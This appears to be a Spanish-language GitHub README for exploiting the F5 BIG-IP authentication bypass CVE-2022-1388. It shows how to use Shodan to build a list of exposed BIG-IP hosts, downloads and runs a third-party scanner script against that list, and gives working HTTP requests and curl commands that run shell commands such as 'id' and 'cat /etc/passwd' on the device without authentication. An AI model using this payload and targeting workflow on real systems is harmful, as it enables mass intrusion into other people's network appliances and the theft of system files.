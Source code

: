 


# F5 BIG-IP RCE (CVE-2022-1388)

## Uso de Shodan

Instalar shodan
```
apt-get update
apt-get install python3-shodan
shodan init YOUR_API_KEY
```
Búsquedas con Shodan
```
shodan host 189.201.128.250
```
![image](https://user-images.githubusercontent.com/50930193/167529480-c88aee9f-7803-4515-b6f0-41b88d21fc2a.png)

Empleemos filtros
```
port:3389 country:pe
```
![image](https://user-images.githubusercontent.com/50930193/167530446-b33a9370-52f5-4aa2-95e0-2ddb47db364d.png)

Ahora en consola
```
shodan download search port:3389 country:pe
```
![image](https://user-images.githubusercontent.com/50930193/167530853-3b66891a-7e20-4911-8eb0-3a8f1cb9dab5.png)

```
shodan convert search.json.gz csv 
cat search.csv | more 
```

![image](https://user-images.githubusercontent.com/50930193/167531063-d1d2642f-c7d6-4ca8-b3e3-948e1850b1c8.png)

Ingresemos a la consola web y busquemos IPs con BigIP F5, para ello empleen el predicado siguiente:
```
http.title:BIG-IP&reg:-Redirect
```

![image](https://user-images.githubusercontent.com/50930193/167530202-088dc976-b8a6-408b-828f-e1ce88b1b091.png)

## Ubicar IPs vulnerables con F5
Los sitios son F5 tienen el título de BIG-IP&reg:-Redirect en su cabecera
```
shodan search 'http.title:BIG-IP&reg:-Redirect' --fields ip_str --separator " " | awk '{print $1}' | cat > IPs.txt
```
Descargar el escaner de detección de vulnerabilidad

```
wget https://raw.githubusercontent.com/trhacknon/CVE-2022-1388-RCE-checker/main/CVE-2022-1388.sh 
chmod +x CVE-2022-1388.sh
./CVE-2022-1388.sh IPs.txt
```
![image](https://user-images.githubusercontent.com/50930193/167532563-066e4630-ea45-452d-b228-efb6fc19f62c.png)

## Explotando vulnerabilidad
POST (1): 
![poc_id](https://user-images.githubusercontent.com/3140111/167375637-54878b95-0897-4ae6-92e0-60ab4cac5c62.png)
```ruby
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redacted>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c 'id' " }

```
curl commandliner: 
```ruby
$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' 
-H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0' 
-H $'Content-Length: 52' 
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \'id\' \" }\x0d\x0a'
$'https://<redacted>:8443/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080
```
POST (2):
![poc_pass](https://user-images.githubusercontent.com/3140111/167375725-2a5403c1-f99a-427a-b99a-a18bc8f7f54c.png)
```ruby
POST /mgmt/tm/util/bash HTTP/1.1
Host: <redateced>:8443
Authorization: Basic YWRtaW46
Connection: keep-alive, X-F5-Auth-Token
X-F5-Auth-Token: 0

{"command": "run" , "utilCmdArgs": " -c ' cat /etc/passwd' " }

```
curl commandliner:
```ruby
$ curl -i -s -k -X $'POST'
-H $'Host: <redacted>:8443' 
-H $'Authorization: Basic YWRtaW46' -H $'Connection: keep-alive, X-F5-Auth-Token' 
-H $'X-F5-Auth-Token: 0'
--data-binary $'{\"command\": \"run\" , \"utilCmdArgs\": \" -c \' cat /etc/passwd\' \" }\x0d\x0a\x0d\x0a'
$'https://<redacted>/mgmt/tm/util/bash' --proxy http://127.0.0.1:8080
``` 
